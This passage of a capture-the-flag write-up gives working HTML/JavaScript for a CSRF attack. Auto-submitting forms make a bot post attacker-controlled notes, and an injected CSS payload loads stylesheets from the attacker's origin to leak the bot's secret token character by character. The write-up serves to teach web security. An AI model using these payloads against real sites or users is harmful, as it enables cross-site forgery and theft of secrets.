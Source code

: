 A friend pointed out the research at https://nzt-48.org/form-action-content-security-policy-bypass-and-other-tactics-for-dealing-with-the-csp, describing CSP bypasses via dangling markup. However, this is inapplicable here, as the templating engine prevents HTML injection on the `/tasks` page.

As a POC, I first try to partially replicate the author's exploit and guess one character of the bot's token.

Unlike typical CTF tasks, the bot can navigate to any URL, not just the task's origin.

The task lacks CSRF protection or an `X-Frame-Options` header, allowing external access to the page.

By the time the bot visits our provided link, it has already created a note with the flag. Following the exploit, we:

- Make the bot create another note with our controlled text. We could use `fetch`, but the browser complains about missing CORS headers in the response, intentionally causing an error and preventing response reading. So, we use a form:

```
<form 
  action="http://127.0.0.1:3000/tasks/0" 
  method="POST" 
  id="form">
    <textarea name="content"></textarea>
</form>
<script>
  window.onload = async () => {
    form.content.value='asd';
    form.submit();
  }
</script>
```

We send a payload like:

```
let flag = 'justToken{'      
const prev = `<link rel=stylesheet href=/tasks><link rel=stylesheet href=${window.origin}/css/${flag}>}`;
const task = `${prev}${'a'.repeat(500 - flag.length - 12 - prev.length)}{}*{--x:`;
```

```
<form 
  action="http://127.0.0.1:3000/tasks/0" 
  method="POST" 
  target="chall"
  id="form">
    <textarea name="content"></textarea>
</form>
<script>
  window.onload = async () => {
    let flag = 'justToken{'      
    const prev = `<link rel=stylesheet href=/tasks><link rel=stylesheet href=${window.origin}/css>}`;
    const task = `${prev}${'a'.repeat(500 - flag.length - 12 - prev.length)}{}*{--x:`;
    form.content.value=task;
    form.submit();
  }
</script>
```
